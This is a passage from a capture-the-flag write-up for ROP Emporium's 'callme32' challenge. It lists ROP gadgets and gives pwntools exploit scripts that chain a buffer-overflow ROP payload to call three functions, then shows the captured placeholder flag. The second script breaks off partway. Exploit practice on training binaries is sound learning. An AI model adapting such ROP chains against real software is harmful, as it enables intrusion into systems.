 ```c
0x080488ab: pop ebp; ret; 
0x080488a8: pop ebx; pop esi; pop edi; pop ebp; ret; 
0x08048579: pop ebx; ret; 
0x080488aa: pop edi; pop ebp; ret; 
0x080488a9: pop esi; pop edi; pop ebp; ret; 
0x080488c0: pop ss; add byte ptr [eax], al; add esp, 8; pop ebx; ret; 
0x080487b3: popal; cld; ret;

```
`0x080488a9: pop esi; pop edi; pop ebp; ret; ` looks good to me.
So adding the address `0x080488a9` after the `callme_x` addresses should do the trick.
```python
from pwn import *

pop3 = p32(0x080488a9) # pop esi; pop edi; pop ebp; ret; 

payload = 'A'*44 # padding
payload += p32(0x080485c0) # callme_one(1,2,3)
payload += pop3
payload += p32(1)
payload += p32(2)
payload += p32(3)
payload += p32(0x08048620) # callme_two(1,2,3)
payload += pop3
payload += p32(1)
payload += p32(2)
payload += p32(3)
payload += p32(0x080485b0) # callme_three(1,2,3)
payload += pop3
payload += p32(1)
payload += p32(2)
payload += p32(3)

print payload
```
Now to test the exploit:
```
$ python exploit.py | ./callme32 
callme by ROP Emporium
32bits

Hope you read the instructions...
> ROPE{a_placeholder_32byte_flag!}
```
Success!

## Finalizing the exploit.
I decided I should make the exploit script more properly, just for fun, and ease.
I used `pwntools` to help with this.
I came up with this:
```python
from pwn import *

proc = process('./callme32')

pop3 = p32(0x080488a9) # pop esi; pop edi; pop ebp; ret; 

payload = 'A'*44 # padding
payload += p32(0x080485c0) # callme_one(1,2,3)
payload += pop3
payload += p32(1)
payload += p32(2)
payload += p32(3)
```
